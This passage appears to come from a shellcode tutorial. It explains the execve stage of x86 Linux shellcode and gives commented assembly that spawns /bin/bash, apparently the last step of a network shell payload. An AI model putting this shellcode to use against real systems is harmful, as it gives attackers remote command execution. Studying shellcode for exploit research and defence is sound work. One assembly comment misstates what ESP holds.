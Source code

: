 ##### Execve

###### Execute program

Finally, the last syscall left to initialize is Execve, which will execute the program when the connection is stablished. 

###### Syscall value:

```term
root@whitecr0wz:~# cat /usr/include/x86_64-linux-gnu/asm/unistd_32.h | grep execve 
#define __NR_execve 11
#define __NR_execveat 358
root@whitecr0wz:~# 
```

###### manpage arguments:

```term
int execve(const char *pathname, char *const argv[], char *const envp[]);
```

The procedure with this syscall will be the following:

+ The program desired to execute will be /bin/bash. 
+ The string "////bin/bash" (additional slashes in order to be divisible by 4) will be pushed into the stack and then saved into EBX. 
+ EDX will be set to 0 as the value envp[] is not required. 
+ EBX will be pushed and saved into ECX.
+ Execve will be called.

```term
execve:

      xor eax, eax            ; Zeroes out EAX.
      push eax                ; Pushes EAX (0x00000000).

      PUSH 0x68736162         ; hsab
      PUSH 0x2f6e6962         ; /nib
      PUSH 0x2f2f2f2f         ; ////

      mov ebx, esp            ; Copies the pushed instructions into EBX.
      push eax                ; Pushes EAX (0x00000000).

      mov edx, esp            ; Copies the value of ESP (0x00000000) into EDX, giving envp[] a value of 0.

      push ebx                ; Pushes ////bin/bash into the stack.
      mov ecx, esp            ; Copies such value to ECX.
      push word 11            ; Pushes word 11 (execve) into the stack.
      pop ax                  ; Pops such word into ax so there are no nulls.
      int 0x80                ; Calls to kernel.
```

Let's test our shellcode.
